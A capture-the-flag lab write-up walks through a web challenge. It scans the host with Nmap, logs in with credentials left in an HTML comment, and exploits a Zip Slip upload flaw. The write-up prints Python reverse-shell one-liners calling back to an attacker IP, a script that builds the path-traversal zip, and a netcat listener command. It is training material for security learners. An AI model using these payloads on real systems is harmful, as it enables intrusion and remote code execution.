




# Day 10 - The Hollow Shell

|Category|Difficulty|
|:------:|:--------:|
|  Web   |  Medium  |

**Skills learned:**
* Scanning a remote host with Nmap
* Exploiting a Zip Slip vulnerability to spawn a reverse shell

## Concierge Briefing
You find it on the beach: pretty, ordinary, the kind of thing nobody thinks to check. Slip something inside and hold it to your ear.
The Byte Lotus beachfront lets guests personalise their in-room display by uploading a shell — a little souvenir pack of shoreline ambiance. Staff publish them through the Shoreline Display portal, and once a shell is "held to the room's ear" it plays its shore. Slip past what the portal forgets to check, and the shell answers with a shell of your own.

## Today's Itinerary
* Find the flag

## Initial Steps
I began this challenge by scanning the machine: `nmap -sV -Pn -p- [MACHINE IP]`
```
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-06 15:08 -0400
Nmap scan report for 10.64.148.113
Host is up (0.026s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.18 (Ubuntu Linux; protocol 2.0)
5000/tcp open  http    Gunicorn
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.41 seconds
```

We've found the web server running on a non-standard port `5000`. Opening it in a web browser brings us here: http://[MACHINE IP]:5000/login 



Checking the source code of the page, we find a clue:
```
<!-- ─────────────────────────────────────────────────────────────── Byte Lotus // internal display-manager portal New on the floor team? IT seeds every property with the same starter login until you set your own: user: concierge pass: StayNoticed2024! (rotate it from Settings on first sign-in — most people forget) ─────────────────────────────────────────────────────────────── --> 
```

We can log in to the site using the guest credentials left in the source code **concierge:StayNoticed2024!** and we find this dashboard:



## Finding the Flag

We're asked to upload a **.zip** file that contains a **shell.json** as will as optional **automation hooks**.

I created an example shell.json file:
```json
{
  "name": "Beach Sunset Theme",
  "version": "1.0",
  "assets": [
    "assets/theme.css",
    "assets/background.png"
  ]
}
```

Then zipped it with `zip test.zip shell.json`. We can see the site contains our new 'shell' in the list of **Shells on display**, inside a directory */shells/5189c17ef8dd/*.

Now that we know we can upload files to the server and open them directly, I pivoted to try and upload a python file containing a reverse shell payload:
```python
export RHOST="[ATTACKER IP]";export RPORT=[LISTENING PORT];python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

I tried zipping this file along with the shell.json we already have `zip ShellMe.zip shell.json revShell.py`, uploaded it, then tried launching the shell by opening the python file on the web server: http://10.65.190.123:5000/shells/a15ec9033fa7/revShell.py. The file contents were printed on the screen and no shell was spawned. We have no code execution in this directory.

The key to this challenge is using the **automation hooks** that the site hints at. If we can include a reverse shell in the hooks directory (**../../hooks**), then we may be able to spawn a shell on the machine.

Write a second python file, which creates a malicious zip file (hacked.zip) containing our existing shell.json and a new reverse shell payload written to the hooks directory:
```python
import zipfile, json

payload = ('import os,pty,socket;s=socket.socket();s.connect(("192.168.160.22",4545));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")')

with zipfile.ZipFile("hacked.zip", "w") as z:
	z.writestr("shell.json", json.dumps({"name": "pwned", "assets": ["background.png"]}))
	z.writestr("../../hooks/hacked.py", payload)
```

Locally running this script `python3 hacked.py` creates the **hacked.zip** that we will then upload to the site. Buut first, start a netcat listener for the incoming connection: `nc -nlvp [LISTENING PORT]`. After uploading the **hacked.zip** file, we see:



After waiting a bit, we have a shell on the machine! Confirm what user we currently are with `whoami`.



## Flag
The flag can be found in the */home/roomservice** directory.
**THM{z1p_sl1p\*\*\*_\*\*\*\*_\*_\*\*\*\*\*}**